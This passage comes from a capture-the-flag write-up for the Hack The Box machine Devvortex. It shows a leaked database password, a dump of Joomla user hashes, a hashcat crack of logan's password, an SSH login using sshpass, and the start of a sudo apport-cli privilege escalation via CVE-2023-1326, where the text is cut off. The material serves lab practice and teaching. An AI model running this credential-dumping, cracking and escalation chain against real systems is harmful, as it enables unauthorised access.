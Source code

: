 ```
lewis : P4ntherg0t1n5r3c0n##
```

```bash
$ mysql -h localhost
```

![Pasted image 20240427215951](https://github.com/iammR0OT/HTB/assets/74102381/2b3dd30b-aef2-4c54-9ee7-1b21057faaec)

There are bunch of tables present in joomla database. The most interesting one is **sd4fg_users**. Let's dump it and see what's inside it.

![Pasted image 20240427220108](https://github.com/iammR0OT/HTB/assets/74102381/1e668957-fdfb-428b-82eb-cbea6d0c487c)

There is password hashes stored of both lewis and logan user. Let's save them in a file and crack them using hashcat.

```
lewis : $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
logan : $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```

```bash
$ hashcat -m 3200 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

### Shell as Logan

Now we have both username and password. Lets gain a shell using SSH on the target system

```bash
$ sshpass -p tequieromucho  logan@devvortex.htb
```

![Pasted image 20240427220600](https://github.com/iammR0OT/HTB/assets/74102381/09abd458-d6bd-4e23-846c-316c016cf469)

## Privilege Escalation

Using `sudo -l` we found that the user logan can run apport-cli on the behalf of root user on the box.  The version of **apport-cli** is **2.20.11**

![Pasted image 20240427220832](https://github.com/iammR0OT/HTB/assets/74102381/e50475f0-bc87-44aa-803a-ee37fe42bc7e)

A quick google search reveals the Local privilege Escalation in `apport-cli 2.20.11` **CVE-2023-1326** . [here](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/diego-tella/CVE-2023-1326-PoC&ved=2ahUKEwiHtJz58OKFAxUCSvEDHbv4DO8QFnoECCYQAQ&usg=AOvVaw0iDVPIzIn3FpXEV82pzFjY)

![Pasted image 20240427221158](https://github.com/iammR0OT/HTB/assets/74102381/871a084e-58b9-437a-924d-4a0a9b6c3c6e)

According to the PoC, If a system is specially configured to allow unprivileged users to run sudo apport-cli, less is configured as the pager, and the terminal size can be set: a local attacker can escalate privilege
